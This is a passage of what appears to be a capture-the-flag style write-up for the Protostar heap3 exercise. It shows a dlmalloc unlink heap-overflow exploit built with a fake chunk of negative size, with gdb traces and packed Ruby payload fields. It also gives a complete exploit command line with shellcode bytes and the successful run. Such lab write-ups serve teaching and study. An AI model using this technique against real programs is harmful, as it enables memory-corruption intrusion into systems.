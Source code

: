 {% codeblock lang:c %}
  if (!(hd & PREV_INUSE))                    /* consolidate backward */
  {
    prevsz = -8
    p = chunk_at_offset(p, +8);
    unlink(p, bck, fwd);
  }
{% endcodeblock %}

Here the address of "virtual chunk" was computed and unlinked:
{% codeblock lang:ruby %}
[0x44444444].pack("V") # prev_size
[0x45454545].pack("V") # size
[0x0804b11c].pack("V") # fwd
[0x0804c00c].pack("V") # bck
{% endcodeblock %}

However, there is another test in consolidate forward:

{% codeblock %}
  if (!(inuse_bit_at_offset(next, nextsz)))   /* consolidate forward */
    unlink(next, bck, fwd);

0x08049918 <free+244>:	mov    eax,DWORD PTR [ebp-0x24] ; eax:FFFFFFF8 = -8
0x0804991b <free+247>:	mov    edx,DWORD PTR [ebp-0x28] ; 0x804c04c: "DEFG\370\377\377\377\374\377\377\377X"
0x0804991e <free+250>:	lea    eax,[edx+eax*1]          ; 0x804c044: "XXXX\001ABCDEFG\370\377\377\377\374\377\377\377X"
0x08049921 <free+253>:	mov    eax,DWORD PTR [eax+0x4]  ; eax:43424101
0x08049924 <free+256>:	and    eax,0x1                  ; eax:00000001 = PREV_INUSE flag
0x08049927 <free+259>:	mov    DWORD PTR [ebp-0x20],eax ; 
0x0804992a <free+262>:	mov    eax,DWORD PTR [ebp-0x28] ; 0x804c04c: "DEFG\370\377\377\377\374\377\377\377X"
0x0804992d <free+265>:	mov    edx,DWORD PTR [ebp-0x24] ; edx:FFFFFFF8
0x08049930 <free+268>:	mov    DWORD PTR [eax+0x4],edx  
0x08049933 <free+271>:	cmp    DWORD PTR [ebp-0x20],0x0 ; PREV_INUSE set?

{% endcodeblock %}

Here at the position `-0x4` is `DEFG` chunk (prev_size), with the size `-0x8`, where the `PREV_INUSE` flag is set `(0x43424101)`, so we skipped
the forward consolidation:

{% codeblock lang:ruby %}
argv2  = "X" * 24 + "\x01" + "ABCDEFG" # user data
{% endcodeblock %}

{% codeblock %}
user@protostar:/tmp$ /opt/protostar/bin/heap3 $(ruby -e 'print "XXXX" + "\x68\x64\x88\x04\x08\xc3"') $(ruby -e 'print "X" * 24 + "\x01" + "ABCDEFG" + [0xfffffff8].pack("V") + [0xfffffffc].pack("V") + "AAAABBBB" + [0x0804b11c].pack("V") + [0x0804c00c].pack("V")') X
that wasn't too bad now, was it? @ 1435304932

user@protostar:/tmp$ ./exploit-backward.rb 
that wasn't too bad now, was it? @ 1435304818
{% endcodeblock %}
---


